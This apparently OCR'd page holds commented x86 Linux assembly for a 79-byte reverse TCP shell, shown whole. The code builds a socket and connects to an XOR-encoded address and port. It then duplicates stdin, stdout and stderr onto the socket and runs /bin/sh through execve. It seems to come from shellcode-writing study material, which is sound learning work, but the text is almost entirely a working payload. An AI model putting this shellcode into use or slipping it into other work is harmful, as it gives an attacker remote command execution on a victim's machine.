 ````
	; socket call requires socket(AF_INET,SOCK_STREAM,0)
	push edx                ;set socket.protocol = 0
	push 1                  
	pop ebx			 ;ebx is 0x1 to declare SYS_SOCKET function on sys_socketcall
	push ebx		 ;sets socket.type = 1 = SOCK_STREAM
	push 2                  ;sets socket.domain = 2 = AF_INET
	; sys_socketcall requires ecx--> args (loaded on esp), ebx --> SYS_SOCKET, eax --> 0x66
	mov al,0x66		 ;defines syscall as sys_socketcall(number,args)
	mov ecx,esp             ;loads the arguments on ecx
	int 0x80                ;executes the call to sys_socketcall

; Connecting the TCP socket
	pop ebx			 ;ebx is 0x2
	;*addr section
	mov edi,0x100007F       ;IP address to connect to is 127.0.0.1 (this will be decoded on runtime)
	xor edi,0xFFFFFFFF      ;decoder for the IP address
	push edi                ;loads the IP address
	mov si,0xb822           ;loads the variable port on SI register
	xor si,0xFFFF           ;decoder for the PORT number
	push si                 ;loads the PORT number
	push bx                 ;AF_INET = 2
	mov ecx,esp             ;saves the pointer of addr on ecx
	;now, store "sockfd,*addr,addrlen on ecx
	push byte 16            ;loads 16 bytes for addrlen (IPv4 = 4bytes*4)
	push ecx                ;loads the memory location of addr struct
	push eax                ;loads the fd
	mov ecx, esp
	inc ebx                 ;ebx is 0x3 to declare SYS_CONNECT function on sys_socketcall
	mov al,0x66             ;defines syscall as sys_socketcall(number,args)
	int 0x80                ;executes the call

; Redirecting STDIN, STDOUT and STDERR to a newly created socket from a client
	mov ecx,ebx             ;ecx now is 3
	mov ebx,eax             ;saves the oldfd on ebx
Redirection:
	dec ecx			 ;decrements by 1 ecx to pass through stdout,stdin,stderr
        mov al,0x3f             ;syscall number for sys_dup2
        int 0x80                ;executes dup2(oldfd,$ecx) for redirect stdout,stdin,stderr
	jnz Redirection	 ;repeats this process until zero flag is set

; Executing a shell
	push edx                ;loads NULL terminator
	push long 0x68732f2f    ;loads 'hs//'
	push long 0x6e69622f    ;loads 'nib/'
	mov ebx,esp             ;saves the pointer to '/bin//sh'
;	ecx & edx still contain NULL
	mov al,0x0b             ;configures eax for syscall - execve
	int 0x80                ;executes execve('//bin/sh',NULL,NULL)
````
``Optimized code for Reverse TCP Shell (79 bytes)``
